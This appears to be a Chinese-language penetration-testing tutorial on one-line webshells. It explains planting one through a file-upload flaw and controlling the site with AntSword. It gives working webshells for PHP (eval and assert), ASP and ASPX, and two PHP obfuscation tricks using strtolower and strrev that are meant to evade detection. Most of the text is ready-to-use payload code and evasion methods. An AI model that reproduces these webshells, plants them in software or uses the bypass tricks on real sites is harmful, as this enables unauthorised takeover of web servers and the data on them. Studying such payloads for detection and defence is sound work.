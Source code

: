 ### 1. 简介

在很多的渗透过程中，渗透人员会上传一句话木马（**简称Webshell**）到目前web服务目录继而提权获取系统权限，不论asp、php、jsp、aspx都是如此

先来看看最简单的一句话木马：

```
<?php @eval($_POST['A1ertx5s']) ?>
```

【基本原理】利用文件上传漏洞，往目标网站中上传一句话木马，然后你就可以在本地通过蚁剑即可获取和控制整个网站目录。@表示后面即使执行错误，也不报错。eval（）函数表示括号内的语句字符串什么的全都当做代码执行。$_POST['A1ertx5s']表示从页面中获得A1ertx5s这个参数值。

### 2. 入侵条件

其中，只要攻击者满足三个条件，就能实现成功入侵：

- 木马上传成功，未被杀
- 知道木马的路径在哪
- 上传的木马能正常运行

### 3. 常见的一句话木马

#### PHP

```
<?php @eval($_POST[A1ertx5s]) ?>
<?php @assert($_POST[A1ertx5s]) ?>
```

#### asp

```
<%eval request("A1ertx5s")%>
```

#### aspx

```
<@ Page Language="Jscript"> <%eval(Request.Item["A1ertx5s"], "unsafe");%>
```

### 4. Bypass

#### 1) 大小写混淆配合字符串关键函数strtolower

```php
<?php
$a = "AssErT";
$b = strtolower($a);
$b($_POST["A1ertx5s"]);
?>
```

#### 2) 字符串逆序配合大小写混淆，关键函数strtolower、strrev

```php
<?php
$a = "TrEsSA";
$b = strtolower($a);
$c = strrev($b);
$c($_POST['A1ertx5s']);
?>
```
